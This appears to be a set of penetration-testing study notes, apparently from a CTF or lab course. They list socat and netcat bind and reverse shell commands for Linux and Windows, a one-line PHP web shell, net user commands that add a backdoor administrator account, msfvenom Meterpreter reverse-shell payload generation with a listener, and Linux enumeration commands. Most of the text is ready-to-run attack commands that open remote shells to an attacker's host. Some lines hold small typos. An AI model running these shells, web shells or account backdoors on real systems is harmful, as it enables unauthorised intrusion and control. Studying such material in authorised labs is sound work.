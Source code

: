 p4(socat bind shell linux)
- ``` socat TCP-L:4444 EXEC:"bash -li" ``` target`s
- ``` socat TCP:<ip>:4444 - ``` attacker`s

P5 other reverse shell techniques
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

p6
- can not submit linux reverse shell to windows

p7 windows php reverse shell
- ```  <?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?> ```

P8 Windows net command.
- The "Net Accounts" command is used to set the policy settings on local computer, such as Account policies and password policies. This command can't be used on domain controller. This command is only used on local computer.
- add a user and add to administrators group.
- ``` net user USERNAME PASSWORD /ad ```
- ``` net localgroup administrators USERNAME /add ```

p9 (nc reverse shell windows)
- ``` nc -lvnp 4444 ``` attacker`s
- ``` nc <tun0-ip> 4444 -e "cmd.exe" ``` target`s

p9 (nc bind shell windows)
- ``` nc -lvnp 3333 -e "cmd.exe" ``` target`s
- ``` nc <target-ip>  3333 ``` attacker`s

p9 (socat reverse shell windows)
- ``` socat TCP-L:8888 - ``` attacker`s
- ``` socat TCP:<tun0-ip>:8888 EXEC:powershell.exe,pipes ``` target`s

p9 (socat bind shell windows)
- ``` socat TCP-L:4444EXEC:powershell.exe,pipes ``` target`s
- ``` socat TCP:<target-ip>:4444- ``` attacker`s

p10 Create a 64bit Windows Meterpreter shell using msfvenom
- create shell
- ``` msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o shell.exe LHOST=<tun0-ip> LPORT=4444 ```
- start a listener

``` 
msfconsole
use multi/handler
set LHOST=<tun0-ip> ,
set LPORT=4444
set payload windows/x64/meterpreter/reverse_tcp
run 
```

## Linux PrivEsc

**Enumeration**
- ``` $ hostname ``` hostname 
- ``` $ uname -a ``` 
- ``` $ cat /proc/version ``` kernel version
- ``` $ cat /etc/os-release ``` system version
- ``` $ cat /etc/issue ``` system version
- ``` ps -A ```  View all running processes
- ``` ps axjf ``` View process tree
- ``` ps aux ``` show processes for all users (a), display the user that launched the process (u),  processes that are not attached to a terminal (x)
- ``` netstat -a ``` shows all listening ports and established connections.
- ``` netstat -at ``` or ``` netstat -au ```, show tcp or udp
- ``` netstat -l ``` list ports in "listening" mode
